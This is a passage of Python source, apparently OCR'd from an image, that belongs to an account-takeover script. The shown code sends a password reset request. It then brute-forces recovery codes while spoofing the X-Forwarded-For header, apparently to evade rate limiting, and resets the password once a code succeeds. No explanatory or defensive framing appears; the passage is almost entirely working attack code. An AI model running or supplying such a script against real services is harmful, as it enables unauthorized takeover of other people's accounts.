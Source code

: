 ```python

    session.post(
        url,
        data={
            "new_password": new_password,
            "confirm_password": new_password,
        }
    )

    print(f"Password has been reset to {new_password}")
    return

def send_password_reset_request():
    try:   
        response = session.post(url, data={"email": email})

        if response.status_code != 200:
            print(f"Request failed, status code: {response.status_code}")
            print("Response:")
            print(response.text)
            sys.exit()
        
    except Exception as e:
        print(f"Request failed, exception: {e}")
        sys.exit()

    return

def enumerate_codes(codes):
    for code in codes:
        code_string = code
        try:               
            response = session.post(
                url, 
                headers={
                    'X-Forwarded-For': code
                } , 
                data={
                    'recovery_code': code,
                    's': 180
                },
                allow_redirects=False   
            )

            if stop_flag.is_set():
                return
            elif response.status_code == 302:
                stop_flag.set()
                print("Timeout reached. Try again.")
                return
            else:
                if invalid_code_message not in response.text:
                    stop_flag.set()
                    print(f"Recovery code found: {code_string}")                                   
                    print(f"Resetting password..")
                    reset_password()                  
                    return

        except Exception as e:
            print(e)
            pass
        
def main(): 
```